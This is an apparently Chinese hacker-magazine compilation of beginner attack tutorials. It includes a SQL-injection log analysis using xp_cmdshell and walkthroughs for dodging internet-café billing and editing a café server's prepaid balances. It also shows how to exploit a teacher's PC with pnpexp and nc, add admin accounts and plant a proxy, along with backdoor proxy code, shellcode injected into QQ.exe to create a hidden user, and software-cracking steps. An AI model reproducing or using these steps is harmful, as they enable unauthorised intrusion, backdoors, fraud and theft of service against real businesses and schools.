2005-10-9 04:49:29 GET ...&BigClassID=2 ;use master dbcc addextendedproc('xp_cmdshell','xplog70.dll')...
2005-10-9 04:49:29 GET ... And (Select Top 1 CASE WHEN ResultTxt is Null then '' else ResultTxt+'' End from ...)
...(省略很多类似了)
2005-10-9 04:49:30 GET ... DROP TABLE [X_9010] ...
```

再次创建该表，运行netstat -an命令，查看服务器的开放端口，然后删除痕迹：

```text
2005-10-9 04:49:37 GET ... CREATE TABLE [X_9010] ...
... EXEC MASTER..XP_CMDSHELL 'netstat -an' ...
... dbcc addextendedproc('xp_cmdshell','xplog70.dll') ...
... And (Select Top 1 CASE WHEN ResultTxt is Null then '' else ResultTxt+'' End ...)
...(省略很多类似)
2005-10-9 04:49:38 GET ... DROP TABLE [X_9010] ...
```

同样的原理查看了D盘、E盘和E:\webroot\下面的所有文件，发现了Web路径：

```text
2005-10-9 04:50:02 GET ... DROP TABLE D99_Tmp; CREATE TABLE D99_Tmp(...) ... exec master..xp_dirtree 'D:\\',1,1 ...
```

```text
log
[左栏与右栏包含大量Web访问日志与SQL注入语句记录，内容为连续多行GET/POST请求、注入payload、目录/文件探测、建表/删表/写入后门等操作示例。]
```

攻击者查看服务器是否正常：

攻击完成，开始打开后门页面“new.asp”进行脚本攻击。

### 三、总结判断

根据以上我们对该服务器日志的分析，可以得出以下结论，如有不妥还请各位高手及时指出：

- 1. 攻击方法的结论  
这是一次典型的利用SQL数据库验证漏洞的注入入侵。攻击者使用的是SQL攻击工具，因为在短短的几分钟内提交这样多的链接请求，只有利用工具才能实现。同时在攻击代码中几乎没有多余的请求页面，也只有工具软件才能完成。  
攻击者后来利用后门页面发起链接采用了POST方法，这是因为用GET方法注入时，IIS会记录所有的提交字符串，对POST方法则不记录，所以我们这些菜鸟也没有办法了。

- 2. 对攻击者的结论  
攻击者没有充分利用“new.asp”后门页面，本来该后门的功能很强大，可是攻击者仅仅使用了其中两个简单的方法，没有造成更大的损害。攻击者在10月9日和10月10日使用的是同一台主机IP进行攻击，这点说明有可能攻击者使用的是一台固定IP的电脑，他没有做自身的保护措施，我们很容易就可以确定真实的攻击者。

# 双剑合璧，网吧免费不是问题

任我小行［无组织］

俗话说，没有做不到，只有想不到！只要开动脑筋，要想网吧免费上网其实不是什么难事，关键是要去想。很简单的思路，就是这些计费机器是靠各种各样的记录系统在把关。在这里我们不谈用什么漏洞免费上网，那些操作起来都稍微有点麻烦，对我们菜鸟来说，还是轻松实用的比较好些。我的思路就是，既然这个软件控制计费，负责给老板赚利润，那么我们就把它这个软件（无论是什么计费系统，都不用怕）删掉不就 OK 了吗？但是现在都有还原装置，乱些年是还原精灵，现在基本上都是还原卡了，因为还原精灵比较容易破，功能也没还原卡效果好。下面就看我如何来操作：

第一步先把还原卡搞定了，这里我推荐一款绝世兵器“屠龙刀”——crdisk12，其功能强大得十分叫人难以相信，所以一般情况要少用哦。运行软件会提示免费条款，不要管它。进去后会发现它有三个功能（如图1、图2），硬盘4个选项，其中一个功能是仅破解还原卡，这个对一般网吧的还原卡都是有效果的。好了，“请选择硬盘”里选择 IDE0 主硬盘；“请选择方式”选择仅破解还原卡，点确定。几秒钟搞定，然后重新启动。


第二步，请出另一个神器“倚天剑”来——精锐网吧辅助 V5 正式版。这是作者最近推出的版本，效果不错，在原有基础上做了下改进。点击“启动管理”项，可以管理系统启动时加载哪些程序。由于我是在菜鸟期，可能临时上手，而这里又有个特点，就是所有网吧用的都是同一种计费系统，对应的进程就是图3中的第2个和第6个。


点击“删除启动项”，将这2个程序都删除掉。然后切换到“限制恢复”，点击“恢复所有限制并立即生效”，因为我们为了防止网管做限制，所以这个是必须做的。然后我们玩就玩个好玩的，那就是切换“系统工具”，大家看到了吧？创建 WIN 管理员（如图4）。点击，即创建成功，本软件设置的账号和密码都是 07188（如图5）。


当再次重新启动机器，就会出现登录画面，就像用自己的机器一样，用这个管理员账号和密码登录啊。进去后可以看到计费的图标不见了，而网吧吧台管理员那些则显示你所上的价格为空闲。如果你不是太引人注目，那就轻易不会被察觉的。还等什么？赶快去网吧，操练吧！经本人测试网吧5个，虽系统不一，但此方法均有效哦。不过菜鸟忠告：适可而止，切勿贪心啊！

> （本文提到的工具：crdisk12、精锐网吧辅助 V5 正式版在光盘有提供。）

# 飞来横“钱”

以前我们去网吧，都会往自己的会员卡里加钱，当然这是虚拟货币，除了上机就没别的用处了。如果用临时卡上机，充进去的钱在结账时还会退还给我们，那我们能不能在临时卡里充钱呢？今天我就来教教大家，方法也很简单。

我们还是先获取 PUBWIN 服务器的管理员权限，弱口令或溢出随便用，这里我用溢出演示一下。首先用我比较喜欢的 pnpexp 来溢出，运行 pnpexp 192.168.186.100 824 正向溢出服务器（大家自己用的时候，要把 IP 改成自己所在网吧的服务器 IP）：

```bash
vv -192.168.186.100 824
nc -192.168.186.100 824
net user wzh wzh /add
net localgroup administrators wzh /add
```

管理员。再运行 `net use \\192.168.186.100\ipc$ /user:"wzh"` 与服务器建立 IPC$ 连接。运行 `net use z: \\192.168.186.100\c$` 把对方的 C 盘映射成本地的 Z 盘（这一步并非关键）。拿到权限后当然还要找到 PUBWIN 服务器安装目录，一般是 `c:\Program Files\Hintsoft\Pubsrv`。接着用 DataBrowser 打开 Database 目录下的 Control.mdb，破解密码后找到 CurTab_UserProp 表，在“编辑”→“搜索”中填入自己的临时卡号（如“4345894”），指定字段选择“UserID”（如图3）。

点击“搜索”后，很快就能找到自己的临时卡号。我们再找到“AdvPaymentRsv”，下面的数字就是为临时卡时我们预付的钱（如图4）。

现在来将它改成大一点，比原来的多就是了（如图5）。不过现在还没有好，因为 PUBWIN 服务器不会刷新我们的资料，要强行把它关闭。这里推荐一个工具：Shutdown Manager（如图6）。在“Computer Name”中输入 PUBWIN 服务器 IP，把“Kill Applications Without Saving Data”前的钩去掉，选上“Reboot after shutdown”，把“Message Text”内容清空，“Delay”填“0”。

最后点击 OK 对方就重启了。等对方重启好后，我们预付款就变成了自己改后的数字。重要说明：本文仅讨论技术，请勿进行破坏性操作，否则后果自负。如有不妥之处欢迎讨论。

> 【本文提到的工具：pnpexp、nc、DataBrowser、Shutdown Manager 在光盘中有提供。】

也许本来就没想过在网吧临时卡里充值吧？所以本文还是很有新意的，有兴趣的朋友可以看看。不过千万不要付诸行动，不然被抓了可不要怪我！

# IE 无法打开新窗口

在浏览网页过程中，单击超级链接无任何反应，多半是 IE 新建窗口模块损坏。可在“开始→运行”中依次执行 `regsvr32 actxprxy.dll` 和 `regsvr32 shdocvw.dll`，必要时再注册 `mshtml.dll`、`urlmon.dll`、`msjava.dll`、`browseui.dll`、`oleaut32.dll`、`shell32.dll`。

# 默认首页变灰色且按钮不可用的故障排除

这是由注册表 `HKEY_USERS\.DEFAULT\Software\Policies\Microsoft\Internet Explorer\Control Panel` 下 DWORD 值 `homepage` 被修改导致。正常值为“0”，若被改为“1”则首页设置灰色不可选。排除办法：将该键值改回“0”。

# 几个 IE 微型技巧

- 1. 上网时发生“非法操作”的排除：可能是传输错误、缓存问题或版本兼容性问题；可重开浏览器、清除缓存、升级浏览器。
- 2. 如何消除操作系统和浏览器在他人网站上的显示：可调整 Cookies 文件夹属性等方式减少暴露。
- 3. 系统找不到网卡的故障原因及排除：检查插槽与驱动，在 BIOS 的相关选项中调整设置（如 `Report No FDD For Windows95` 设为 `No`）。

# 突破校园网关限制上网

最近学校为了让我们上课的时候专心听讲，安装了“苏亚星”。自从《黑客手册》7-8 合刊上登载了破解苏亚星的方法后，大家都破解了苏亚星来上网。老师无奈之下只好在网关处禁止学生机上网，令人很不爽！于是我想到了一个好办法，因为老师的机器可以上网，可以通过入侵老师，在老师的机器上安装代理服务器，这样就能通过老师的机器上网了。

首先打开网上邻居，会看见很多的机器，如 A01～A50，最后还有一台计算机名是“teacher”的机器，这个就是老师用的机器了。再打开 CMD，运行 `ping teacher`，得到老师机器的 IP 是 `192.168.186.100`（如图1）。


有了 IP，然后干什么呢？当然是获取权限。我比较喜欢用最新的 pnpexp。Pnp 漏洞的利用需要开放 445 端口，先用 S 扫描器来扫一下看看吧。把 S 扫描器复制到了 C 盘根目录，接着打开 CMD，运行 `s tcp 192.168.186.100 445` 来检测 445 端口有没有开放。结果出来了，显示 `192.168.186.100 445 Open`，说明 445 端口开放了（如图2）。


OK，下面就来溢出吧！还是把溢出工具 pnpexp 和连接工具 nc 复制到 C 盘根目录。接着在 CMD 下运行 `pnpexp 192.168.186.100 824`，很快工具就提示“check your shell on 192.168.186.100:824”，让我们连接 192.168.186.100 的 824 端口。再打开一个 CMD，也是转到 C 盘根目录，运行 `nc -vv 192.168.186.100 824`，SYSTEM 权限的 CMDSHELL 马上呈现在我们面前了（如图3）。


拿到了 CMDSHELL，接下来该安装代理服务器了，这里我使用的是 TinyHTTPProxy。这个工具不但小巧，而且支持 Connect Method，所以可以在新版的 QQ 中做成 HTTP 代理连接，这样上课也能上 QQ 啦。为了把 TinyHTTPProxy 拷贝到老师的机器上，在本机开了一个共享，共享名为 proxy，把 TinyHTTPProxy.exe 放在这个文件夹中。接着在对方的 CMDSHELL 中运行 `copy \\a26\proxy\TinyHTTPProxy.exe c:\`（a26 是我使用的机器名），这样就把 TinyHTTPProxy.exe 复制到了对方的 C 盘。

现在就用这个程序来开代理。先看看它的用法吧：`TinyHTTPProxy Port [AllowedIP]`，意思是如果运行 `TinyHTTPProxy 8080`，就开放 8080 作为服务端口，并允许所有人连接。

要上网了！难道我们就这样在 CMDSHELL 下直接运行？如果我们的 CMDSHELL 不小心关闭了呢？所以得想办法让对方的机器自己运行。怎么才能让对方自己运行呢？对了，用 AT 命令。在 CMDSHELL 下运行 `time`，显示现在是 15:48:57，再运行 `at 15:50 c:\TinyHTTPProxy 8080` 来让对方在 15:50 运行我们的程序并启动代理服务（如图4）。


时间一分一秒走着……终于到了 15:50。这时我打开 QQ，点击右下角的网络设置，然后在网络设置的类型选项中，选择“HTTP 代理”，地址就写老师机器的 IP，即 192.168.186.100，端口写我们运行时设置的 8080，OK，按下“测试”按钮，如果不出意外的话，就会弹出“代理服务器工作正常”的对话框（如图5）。填上自己的 QQ 号码和密码后就能聊天去了。


聊天还不够，还要看网页啊！只要在 IE 属性中设置一下就可以了。打开 Internet 选项对话框，在“连接”选项卡中点击“局域网设置”，然后在弹出的“局域网（LAN）设置”中，勾选“为 LAN 使用代理服务器”，并在下面的地址和端口分别填上 `192.168.186.100` 和 `8080`，别忘了要选上“对于本地地址不使用代理服务器”哦（如图6）。


所有 OK 以后，现在我们就可以快快乐乐地上网了，而本文也到此结束了。不过我还是要提醒大家好好学习哦。还有什么问题的话欢迎来《黑客手册》的论坛（http://www.nohack.cn）交流。

> 【本文提到的工具：S 扫描器和 TinyHTTPProxy 在光盘中有提供。】

> 杰弗雷·詹姆斯的《编程之道》里有一句话：“当我刚开始编程时，我眼前看见的是整个问题组成一团。三年之后，我再也看不见这种一团糟的情形了。相反，我用了各种各样的子程序。但现在，我什么也看不见了。我的整个身心存在于一种无形的虚空里，我的知觉是空荡荡的。”

# 跳板——后门代理程序的编写

古开元  四川大学信息安全研究所

在进行网络攻击和渗透的过程中，作为一个攻击者而言，他的思维必须缜密而又能把握全局，不但能利用各种漏洞进入目标主机并获得某种权限，又要保证在执行完任务之后全身而退，以避免露出马脚而导致前功尽弃。


图1应该算得上是一个复杂的链式肉鸡集群。假设攻击者 A 通过各种技术和手段控制了 M1、M2 等一级受害者，这里的一级指的是受害者直接受攻击者控制，而下面的二级受害者则是一级受害者被攻击后留下后门，并指定由一级受害者作为代理来间接控制。

- 1. A → M2
- 2. A → M1 → M2
- 3. A → M1 → N → M2

“跳板”，说白了就是一个代理、转发器。下面我们就着手来实现在后门程序中加入“跳板”的功能吧。


图2流程很清晰，这也是一般代理程序的工作方式。下面的编码实现基本就是围绕着图2来实现的。

```c
#include <winsock2.h>
#pragma comment(lib,"ws2_32.lib")

void InitWinsock(){
    WSADATA wsaData;
    if(WSAStartup(MAKEWORD(2,2), &wsaData) != 0){
        Error("WSAStartup()");
        return;
    }
}
```

然后，给 sin_local 和 sin_remote 这两个 SOCKADDR_IN 结构赋值，分别对应跳板本地监听地址信息和被攻击者地址信息。

```c
sin_local.sin_family = AF_INET;
sin_local.sin_port = htons(atoi(argv[3]));
sin_local.sin_addr.s_addr = INADDR_ANY;

sin_remote.sin_family = AF_INET;
sin_remote.sin_port = htons(atoi(argv[2]));
sin_remote.sin_addr.s_addr = ResolvAddr(argv[1]);
```

上面的 ResolvAddr() 是用来解析输入参数中的 IP 地址或域名，并转换为网络字节序的 32 位 IP 地址。

```c
DWORD ResolvAddr(char *host){
    HOSTENT *hostent;
    DWORD dwIP;

    dwIP = inet_addr(host);
    if(dwIP == INADDR_NONE){
        hostent = gethostbyname(host);
        if(hostent == NULL){
            printf("Unable to resolve the host# %d\n", WSAGetLastError());
            exit(1);
        }else{
            dwIP = *(DWORD*)hostent->h_addr_list[0];
        }
    }
    return dwIP;
}
```

```c
sck_listen = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

setsockopt(sck_listen, SOL_SOCKET, SO_REUSEADDR, (char*)&flag, sizeof(flag));

bind(sck_listen, (SOCKADDR*)&sin_local, len);
listen(sck_listen, NUMBER_LISTEN);
```

```c
while(TRUE){
    sck_accept = accept(sck_listen, ...);
    // 处理连接并转发数据
}
```

## 十一、快马加鞭黑客代理

```c
DWORD WINAPI ProxyThread(LPVOID pParam)
{
    SOCKET sck_proxy, sck = *(SOCKET*)pParam;
    int err = 0, len = 0;
    FD_SET fd_read;
    sck_proxy = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    ...
    while (TRUE) {
        FD_ZERO(&fd_read);
        FD_SET(sck, &fd_read);
        FD_SET(sck_proxy, &fd_read);
        err = select(0, &fd_read, NULL, NULL, NULL);
        if (FD_ISSET(sck, &fd_read)) {
            len = recv(sck, buf, BUFFSIZE, 0);
            ...
            len = send(sck_proxy, buf, len, 0);
        }
        if (FD_ISSET(sck_proxy, &fd_read)) {
            len = recv(sck_proxy, buf, BUFFSIZE, 0);
            ...
            len = send(sck, buf, len, 0);
        }
    }
    closesocket(sck);
    closesocket(sck_proxy);
}
```

可以看到，最关键的地方就是 ProxyThread() 这个线程函数了，它的实现如上。

大功告成，看起来好像很简单哦。测试一下吧！在本机（IP 为 192.168.3.155）启动代理程序，命令为：`bkproxy.exe bbs.scu.edu.cn 23 1981`。

```bash
I:\>bkproxy.exe bbs.scu.edu.cn 23 1981
```

图3 启动代理程序

```bash
C:\>telnet 192.168.3.155 1981
```

图4 telnet 上本机


## 小结

到这，一个简单的“跳板”——代理转发程序就完成了，把该程序做成一个功能函数，就可以添加到你的后门里了。并可继续扩展身份验证、数据加密、访问控制等功能。

# 在 DOS 下修改注册表

何东杰

## 一、scanreg/restore

- 1. 导出你想要修改的注册表分支
- 2. 在 DOS 下用 edit.exe 对导出的 .reg 文件进行修改
- 3. 把修改后的注册表文件导入到注册表中

```bash
regedit /e ls.reg HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System
```

> 说明：`/e` 参数用于导出注册表文件，`ls.reg` 是导出的文件名，后面是要导出的主键路径。

## 二、自己编辑注册表文件

如果掌握方法，可以在 DOS 下自行编写 .reg 文件，再导入注册表以实现修改。修改前建议先备份。

## 三、regedit 参数 文件名

- `/s` 导入 .reg 文件（安静模式）
- `/e` 导出注册表文件
- `/L:system` 指定 system.dat
- `/R:user` 指定 user.dat
- `/C` 压缩文件名（Windows 98）

# 打造菜鸟自己的图形界面溢出程序

相信菜鸟朋友们都听说过“溢出程序”吧？溢出程序就是利用程序的某些漏洞来获取相应的权限或其他目的。平时我们在网上常见的溢出程序都是在 CMD 下运行的，很多初学的朋友都看不懂、不会用。难道我们不能自己来把命令行界面的溢出程序做成图形界面吗？

> 菜鸟：要我们自己写溢出程序？要疯狂学习 N 年才行了……

空气：不要害怕，我们只要写一个简单的程序来调用真正的溢出程序而已（高手不要笑话，本文是写给菜鸟的），而且很简单，下面我就来教大家一步一步做吧。

以 MS05-039 为例，看看是怎样把 pnpexp.exe 变成图形界面的。首先我们必须熟悉 pnpexp.exe 的用法，在 CMD 下直接运行 pnpexp.exe 就能看见帮助了（如图1）。


从帮助信息来看，如果我们只要“正向溢出”的话，就只要运行 `pnpexp.exe 对方的IP 端口`；如果要“反向溢出”的话，先在本地监听一个端口（不能和已开放端口重复），然后运行 `pnpexp.exe 对方IP 监听的端口 自己的IP` 就好了。

了解了 pnpexp.exe 的用法，我们就要开始写调用程序了。我在这里选择 VB，因为 VB 非常好上手。打开 VB，新建一个标准 EXE，在弹出的设计界面上添加控件并命名（如“对方IP”“本机IP”“正向溢出”“反向溢出”等），最终可以得到如图2所示的样子。


```vb
Private Declare Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" (ByVal hWnd As Long, ByVal lpOperation As String, ByVal lpFile As String, ByVal lpParameters As String, ByVal lpDirectory As String, ByVal nShowCmd As Long) As Long
Private Declare Function GetTickCount Lib "kernel32" () As Long
```

```vb
If Text1.Text = "" Then
    MsgBox ("请填写对方IP")
Else
    Dim z1, z2
    z1 = Shell("cmd /c " + App.Path + "\pnpexp.exe " + Text1.Text + " 824", vbHide)
    sleep (3000)
    z2 = Shell("cmd /c " + App.Path + "\nc.exe -vv -l -p " + Text1.Text + " 824", vbNormalFocus)
End If
```

```vb
Private Sub sleep(ByVal sSec As Long)
    Dim StartSec As Long
    StartSec = GetTickCount()
    While (GetTickCount() - StartSec) < sSec
        DoEvents
    Wend
End Sub
```

```vb
If Text1.Text = "" Or Text2.Text = "" Then
    MsgBox ("请填写对方IP")
Else
    Dim f1, f2
    f2 = Shell("cmd /c " + App.Path + "\nc.exe -vv -l -p 824", vbNormalFocus)
    f1 = Shell("cmd /c " + App.Path + "\pnpexp.exe " + Text1.Text + " 824 " + Text2.Text, vbHide)
End If
```

最后在“文件”菜单中选择“生成工程1.exe”就能把程序导出了。这样图形化界面的溢出程序就做好了。但这个程序会调用 pnpexp.exe 和 nc.exe，所以需要把这两个程序放在同目录。

那能不能把这几个程序合并起来呢？当然可以，这里可以用捆绑机（如 CABINET）把工程1.exe、nc.exe、pnpexp.exe 一起打包。添加文件后安装并选择图标即可（如图3）。


这篇文章没什么技术，只是想满足一下小菜鸟们要用图形界面溢出程序的目的。大家有问题欢迎交流。

# 利用病毒机理打造小巧后门

徐逢志

大家都知道，很多病毒都喜欢通过感染 PE 文件来进行传播，常见的方法有这几种：

- 1. 修改 PE 文件引入表来加载特定的 DLL（DLL 中带有恶意代码），让 DLL 随 PE 文件一起执行。
- 2. 在 PE 文件中增加一个节，并修改 PE 文件程序入口地址指向自己增加的节，执行完特定代码之后跳至原入口处执行。
- 3. 用恶意代码覆盖当前 PE 文件某个节中空白处，修改 PE 文件程序入口地址指向此处，执行完特定代码之后跳至原入口处执行。

第一种方法比较简单，容易实现，但是有个缺点：很容易查出来。用一些功能丰富的进程管理工具就可以发现加载的 DLL。

第二种方法被很多加壳软件利用，比如 UPX 就是在 PE 文件中增加一个节来对文件进行加密。这种方法的好处是代码长度相对来说不受限制；但坏处也显而易见：多了一个节，文件长度发生了变化，用户会起疑心。

第三种方法避免了前两种的缺点，文件长度不发生变化，不加载额外模块，很难被用户发现。缺点是每个 PE 文件节的空白长度不一样，需要代码尽可能短小精悍。

假如把后门代码附在目标机上经常执行到的程序上，比如 QQ，那么用户每次使用 QQ 就等于执行了后门代码，而 QQ 仍能正常工作，目的即可达到。

现在我们就以 QQ 为目标，打造一个小后门：用户每次执行 QQ 时，为我们创建一个名为 StubPE、密码为 12345678 的用户。

```c
WinExec("net user StubPE 12345678 /add");
```

这句可以实现功能，但不能直接写入目标 PE。需要将其转换为 ShellCode 形式。

```asm
push ebp
mov ebp, esp
sub esp, 20h
...
call eax
...
pop ebp
```

好了，虽然很长，但是功能却达到了，转换成 ShellCode，就是：

```c
unsigned char ShellCode[] = "\x55\x8B\xEC..."
```

```c
"\x72\x61\x74\xC7\x45\x..." （ShellCode字节序列）
```

大家注意，因为操作系统版本不同，WinExec 函数所在的内存地址也不一样。这里的做法是动态写入地址。

```c
DWORD dwWinExecAddr = (DWORD)&WinExec;
memcpy(ShellCode + 69, &dwWinExecAddr, 4);
memcpy(ShellCode + 162, &dwWinExecAddr, 4);
```

将 ShellCode 写到 QQ 的第一个节空白处，需先定位节起止并判断可写入空间。以 WINXP SP2 + QQ2005 Beta3 为例可行。

需要注意：加壳后的 PE 文件不建议这样做，入口地址和节地址通常已被改动。也可通过修改 ShellCode 实现其它功能。

> 用法举例：在 QQ 没有运行时，命令行执行，另外一个文件只能被安装一次。  
> StubPE d:\tencent\QQ.exe

然后运行 QQ，就会发现机器上多了一个叫 StubPE 的用户。


大家好，我是 lmnlep，从本期起将由我来主持破解这个板块，本期继续给大家带来“鸟儿学破解”系列篇中的菜鸟入门篇。对壳不熟悉的读者可以从中了解什么是自动脱壳，什么是手动脱壳了。另外，作为给第一次和大家见面的礼物，我也将多年来学习破解中的经验写出来，希望大家喜欢！同时，破解板块在下一期将有所改动，将会带给大家更多的精彩内容，大家可不要错过哦：）。

# 鸟儿学破解——脱壳入门篇

现在要找个没加壳的软件真是不容易啊，在第一篇“鸟儿学破解”中我提到的破解流程中就含有脱壳这一步，可是当时介绍的软件并没有使用加壳技术，所以就没介绍。今天我们小菜鸟来学习脱壳，这个可是学习破解软件必备的技术啊。

## 壳的概念

在一些计算机软件里加入一段专门负责保护软件不被非法修改或反编译的程序。它们一般都是先于程序运行，拿到控制权，然后完成它们保护软件的任务，大家就把这样的程序称为“壳”。

## 壳的分类

- 压缩壳：将软件体积减小。
- 密码壳：在正常的软件中插入自己的代码，使得打开软件后需要输入密码才能运行。
- 保护壳：一般我们称这类壳为猛壳，因为比较难对付，加壳后的程序一般体积会变大，也有部分壳可以起压缩作用。

了解了初步的知识后我们就来具体练习一下破解技术吧。

## 脱壳任务

- UPX 加壳的程序：test for upx.exe
- JDPack（铁甲）加壳的程序：test for JDPack.exe

## 自动脱壳

为了方便，我自己写的软件很容易就被破解，今天主要是练习脱壳嘛。拿出 PEiD 对 test for upx.exe 进行扫描，很清楚地就发现软件用 UPX 加了壳（其实是我自己加的，嘿嘿~），如图1所示。


对于 UPX 这个壳网络上有很多脱壳软件，今天我们使用 Quick Unpack 4.0 来脱壳。打开软件，选择 test for upx.exe，然后点下面的“获取”按钮（图2）。


现在我们就可以点“现在脱壳”了，我们按照默认的文件名保存为 unpacked.exe。现在我们已经将软件的壳给脱掉，可是软件是不好运行的，如图3所示。没关系，我们现在使用软件将它的输入表修复一下。


打开 LordPE，点击 Rebuild PE 后选择我们刚才脱过壳的 unpacked.exe，软件就直接将输入表修复好了，如图4所示，双击 unpacked.exe 后程序正常运行（图5）。


现在我们使用 W32dsm.exe 打开软件，然后打开“参考”→“字符串参考”，我们就可以看到软件中的注册提示了，如图6所示。


双击“注册成功”后我们来到如下地方：

```asm
00402E1F  E8F6020000    call 0040311A
00402E24  50            push eax
00402E25  E886030000    call 004031B0
00402E2A  83C408        add esp, 00000008
00402E2D  85C0          test eax, eax
00402E2F  7416          je 00402E47
...
00402E47  6A40          push 00000040
...
00402E49  68C4440000    push 0040446C
```

到这里就不要我说了吧，还不快使用 UltraEdit 将 00402E2F 的 74 改成 75。

## 手动脱壳

在上面脱壳中我们都是使用的工具，简单、方便、快捷。可是有很多壳是没有现成的脱壳工具的，所以需要手工来脱壳。下面我们就来学习一下手工脱壳。

- 1. 寻找 OEP
- 2. DUMP 文件
- 3. 修复输入表

我们用 PEiD 查到我们现在要脱的壳是铁甲（test for JDPack.exe），如图7所示。


网络上还没出现铁甲这个壳的脱壳机，所以我们只有手工来搞了。拿出我们常用的 OllyDbg 加载程序，忽略所有的异常，程序停留在 0040A000 处，如图8所示。

现在按 F8 来调试，当程序运行到 0040A04F 的时候，0040A058 处就会变成 pushfd。继续向下走，一直到第一个循环 0040A0B1 处，如图9所示。


所以在 OEP 处填写 000031C0，然后单击“IAT自动搜索”，再单击“获得输入信息”后我们会发现所有的函数都是有效的。


## 三、总结

如今在互联网上已经有很多种壳了，而脱壳软件却是少数的，这意味着我们在以后的破解学习中会经常遇到需要自己手工脱壳的软件，所以掌握这门技巧是绝对关键的。

壳是目前破解中热衷讨论的，脱壳往往是破解的第一步，所以要学习破解就要学会脱壳。本文适合于刚学习破解的读者。不过，脱壳的路也很长，想成第一名脱壳高手也不是一朝一夕的事。

# 破解之道——安全破解初学者

很多朋友可能对破解很感兴趣，想学，可就是不知道怎么入门。在这里，总结一下我在学习破解中的一些经验，希望对各位破解初学者有一些帮助。

- 1. 多上一些破解论坛。基本上所有的破解知识都是从各个破解论坛上来的；国内最有名的是看雪论坛（bbs.pediy.com），另外还有像解密爱好者逆向组织 DFCG（www.chinadfcg.com）、龙族 IDC.4s（www.chinadforce.com）等。
- 2. 学习破解工具的使用。不要局限于某个工具，要学会 SoftICE 和 OllyDbg。初学者可能会先选择 OllyDbg，但深入的话需要学习 SoftICE。
- 3. 多使用搜索引擎。常用 Google、Baidu、Yandex，尤其 Yandex 在找破解工具和俄文资料时很有帮助。
- 4. 不要局限于中文站点。可以浏览国外破解网站，借助在线翻译；文中提到 CrackLab、EXETOOLS、ARTeam 等站点。
- 5. 要有耐心。破解一个软件可能需要很长时间，遇到困难不要轻易放弃。
- 6. 靠自己。论坛可提问，但很多问题需要自己钻研，尤其是较难或敏感的问题。
- 7. 明确学习目的。不要为“破解而破解”，重点是提升分析能力，不要沉迷。
- 8. 学习汇编。汇编对破解非常关键，可在破解过程中同步学习。

# 让溢出不再困难之——Metasploit Framework 新鲜体验

古开元  四川大学信息安全研究所

论坛上经常出现的一幕：

> 小菜：没有 ASM 汇编和 C 语言的编程基础，能学会溢出吗？  
> （老鸟）答：不能！  
> 小菜：没有深厚的系统底层相关知识，能学会溢出吗？  
> （不耐烦）答：不能！  
> 小菜：没有对 TCP/IP 网络协议的深刻理解，能学会溢出吗？  
> （潜水……不予理会）

由此可见，学习缓冲区溢出技术是件痛苦而漫长的过程……但是对于广大初学者或纯工具论者来说，能否在不需要坚实理论技术知识的情况下做一名溢出高手？答案不用想。

我写这篇文章干什么？对，一种叫做 Metasploit Framework 的新型安全工具就可以达成无数鸟们的心愿。该工具是开放源代码的、免费有效的溢出开发框架（Metasploit Framework 主要由 H D Moore 维护，详情可到 http://www.metasploit.com 主页查阅）。

# 溢出？还那么困难吗！

Metasploit Framework（以下简称 MSF）介绍。MSF 框架大部分是用 Perl 脚本语言写的，可以运行在几乎所有 UNIX 类平台，包括 Windows 平台下的 Cygwin 平台。MSF 框架提供给用户 3 个接口：msfcli、msfweb、msfconsole。

# Windows 下 MSF 的安装

因为 MSF 绝大部分是用 Perl 写的，而 Windows 操作系统本身并没有带有 Perl 解释器，所以为了更好地充分利用 MSF 的快速、方便、强大的功能，MSF 的开发小组决定只支持 Windows 下的 Cygwin Perl。所以，如果你要想在 Windows 下用 MSF 的话，嘿，赶快装一个 Cygwin 吧。这个东西我就不再介绍了，相信很多在 Windows 下用 *nix 的朋友肯定比我还用得熟，该软件的具体详情请到 http://www.cygwin.com 上查阅。

然后到 http://www.metasploit.com 主页上下载最新的 framework-2.4 Release 版。这是个标准的 Windows installer 文件，直接点击安装，如图1所示。选择好安装目录即可（装 Cygwin 比装 *nix 有个好处就是，它可以随意访问 Windows 的任意一个磁盘，而 *nix 相对就麻烦了）。


# MSF 的基本使用

先打开 Cygwin，进入到安装 MSF 的目录，发现 MSF 安装时对 Cygwin 环境做了一个最小化的拷贝，这样能保证在 Windows 下更好地使用 framework 框架。然后按照“\Metasploit Framework\home\framework”的路径一直 cd（更换目录的 DOS 命令）进去。

> Cygwin 和大多数 *nix 一样，Shell 命令是区分大小写的。就是说，你如果输入：  
> “Cd Metasploit framework” 或 “cd metasploit framework” 都会提示错误，前者提示 “Cd command not found” 而后者提示 “chdir: failed to change directory: No such file or directory”。

进到 framework 目录下，ls 看一下，就有不少东西，但目前来说我们只关心与如何使用有关的，于是把目光放到 msfconsole 这个文件。ls 看看它的属性，如图2所示。

嘿嘿，“-rwxr-xr-x” 有 3 个 x（eXecute），可执行文件。输入“./msfconsole”（注意前面的“./”表示当前目录），默认、2、3、回车，弹出图3的登录成功画面。

中间的 logo 可随意拉伸，等待的字很明显就是“metasploit”（注：这里的 logo 是可变的，如果你退出 msf，然后再次进入，logo 就换成其它的，呵呵，MSF 的开发小组也是没事偷着乐啊 ^_^），logo 下面显示了版本为 v2.4，包含了 77 个 exploits 和 75 个 payloads。最下面的表示我们已经进入到 MSF 命令行工作模式下。要查看 MSF 相关帮助信息，我们可以输入“?”，如图4所示。


检查命令是否匹配 MSF 命令集的命令，如果不匹配，再检查是否匹配 Windows 集的命令参数，如果不匹配，给出“command not found”提示。更好玩的是，在 MSF 下的命令集是 *nix 风格的，即区分大小写，而匹配 Windows 的命令集则不区分大小写。就是说，如果你输入：“msf > winver”或“msf > WINVER”都可以弹出 Windows 系统版本对话框，但是输入“Cd dir”（C 大写）则提示“command not found”。

# MSF 的高级使用——溢出 How To

读者们肯定等不及了，说了半天，都在讲空话，实质性的东西都没有（嘿嘿……要的就是这种效果）。好，就来玩真格的，大家打好精神哦！

先用图4中列出命令集的 show 命令，该命令能显示所有有效的 exploits 和 payloads（exploits 就是我们可以利用的漏洞，payloads 就是我们用于溢出的 shellcode）。从图5中可以看到，show 后必须带 exploits、payloads、encoders 或 nops 中的其中一个选项。先用“show exploits”吧，看看我们可以通过 MSF 利用哪些漏洞，如图5所示。

图5 show exploits

- 第三列给出第二列的默认值，留空白的就表示没有默认值。  
- 最后一列就是相关的描述了。  
最后一排告诉我们的可攻击目标的操作系统。

